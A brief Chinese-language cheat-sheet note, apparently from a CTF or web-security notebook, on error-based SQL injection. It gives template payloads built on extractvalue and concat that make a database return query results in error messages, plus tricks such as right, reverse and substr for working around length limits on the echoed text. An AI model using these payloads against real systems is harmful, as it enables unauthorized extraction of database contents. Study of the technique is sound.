 利用某些`sql`函数出错时回显错误信息包含参数值的特性，获得需要的信息
```sql
...^extractvalue(1,concat(0x5c,<payload>))
```

e.g.
```sql
...^extractvalue(1,concat(0x5c,(select(<columns>)from(<table_name>))))
```

对于回显有字数上限的使用`right`函数包裹`<columns>`，以获得后半部分
```sql
...^extractvalue(1,concat(0x5c,(select(right(<columns>))from(<table_name>))))
```
也可以使用`reverse`、`substr`、`mid`、`regexp`这些，总之灵活运用QwQ

#Web #SQL注入 #报错注入